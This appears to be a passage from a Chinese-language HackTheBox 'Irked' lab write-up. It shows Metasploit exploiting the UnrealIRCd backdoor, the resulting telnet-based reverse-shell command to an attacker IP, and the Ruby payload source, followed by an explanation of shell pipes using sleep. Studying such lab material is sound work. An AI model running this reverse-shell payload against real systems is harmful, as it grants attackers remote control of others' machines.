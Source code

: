     msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run
    
    [*] Started reverse TCP double handler on 10.10.14.14:4444 
    [*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
        :irked.htb NOTICE AUTH :*** Looking up your hostname...
    [*] 10.10.10.117:6697 - Sending backdoor command...
    [*] Accepted the first client connection...
    [*] Accepted the second client connection...
    [*] Command: echo DklVGHbcoUDn6OCZ;
    [*] Writing to socket A
    [*] Writing to socket B
    [*] Reading from sockets...
    [*] Reading from socket A
    [*] A: "DklVGHbcoUDn6OCZ\r\n"
    [*] Matching...
    [*] B is input...
    [*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.117:49955) at 2019-04-04 09:30:17 -0400
    
    id
    uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
    

进程列表中将显示一个新条目：

    ircd      4873  0.0  0.0   2276    72 ?        S    09:20   0:00 sh -c (sleep 4054|telnet 10.10.14.14 4444|while : ; do sh && break; done 2>&1|telnet 10.10.14.14 4444 >/dev/null 2>&1 &)
    

这让我感到很有趣。我找到了 的源代码，这是此漏洞的默认有效负载：`cmd/unix/reverse`

    def command_string
      cmd =
        "sh -c '(sleep #{3600+rand(1024)}|" +
        "telnet #{datastore['LHOST']} #{datastore['LPORT']}|" +
        "while : ; do sh && break; done 2>&1|" +
        "telnet #{datastore['LHOST']} #{datastore['LPORT']}" +
        " >/dev/null 2>&1 &)'"
      return cmd
    end
    

这是一个有趣的命令字符串。这是我认为正在发生的事情。当你通过管道进入某物时，下一个事物就会运行。如果该事物正在等待输入，它将阻止等待输入。但如果没有，它也将立即开始运行。`sleep`

例如：

    $ time sleep 3 | sleep 3
    
    real    0m3.004s
    user    0m0.005s
    sys     0m0.001s
    

由于不等待从 stdin 读取，因此第二个命令立即开始，并且两个命令大约在同一时间完成。`sleep`

如果第二个命令在初始命令之前完成，它仍然等待 完成。因此，类似的东西将立即打印工作目录，然后等待睡眠完成：`sleep``sleep``sleep 3 | pwd`

    $ time sleep 3 | pwd
    /home/df
    